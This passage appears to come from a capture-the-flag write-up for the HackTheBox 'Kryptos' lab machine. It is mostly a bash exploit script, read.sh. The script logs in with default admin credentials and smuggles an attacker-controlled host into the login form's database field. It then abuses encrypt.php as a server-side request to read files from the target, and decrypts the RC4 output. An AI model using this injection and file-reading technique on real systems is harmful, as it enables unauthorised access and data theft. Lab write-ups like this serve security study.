 Let's give it a shot.


{% include image.html image_alt="e268c9c7.png" image_src="/495619aa-ab62-4bd9-92a7-61d4f7905c78/e268c9c7.png" %}


Looks good. Here's the code to `read.sh`.

<div class="filename"><span>read.sh</span></div>

```bash
#!/bin/bash

IP=$(ifconfig | grep -A1 tun0 | sed '2!d' | awk '{ print $2 }')
COOKIE=$(mktemp -u)
HOST=10.10.10.129
HOSTNAME=kryptos
FILE=$1
NAME="${FILE%.*}"
DOCROOT=/var/www/html
SECRET=dev/d9e28afcf0b274a5e0542abb67db0784
README="http://$HOSTNAME/$SECRET/$FILE"
README=$(urlencode "$README")
CIPHER="encrypt.php?cipher=RC4&url=$README"

TOKEN=$(curl -c $COOKIE \
             -s \
             http://$HOST \
        | grep token \
        | cut -d'"' -f6)

# login
curl -b $COOKIE \
     -s \
     -o /dev/null \
     -d "username=admin" \
     -d "password=admin" \
     -d "db=cryptor%3Bhost%3D$IP" \
     -d "token=$TOKEN" \
     -d "login=" \
     "http://$HOST/index.php"

# encrypt
RC4=$(curl -b $COOKIE \
           -s \
           "http://$HOST/$CIPHER" \
      | sed -r '/<textarea/,/<\/textarea>/!d' \
      | head -1 \
      | cut -d'>' -f2 \
      | cut -d'<' -f1)

# decrypt
python xor.py "$RC4" \
| sed '1,5d'

# clean up
rm -f $COOKIE
```

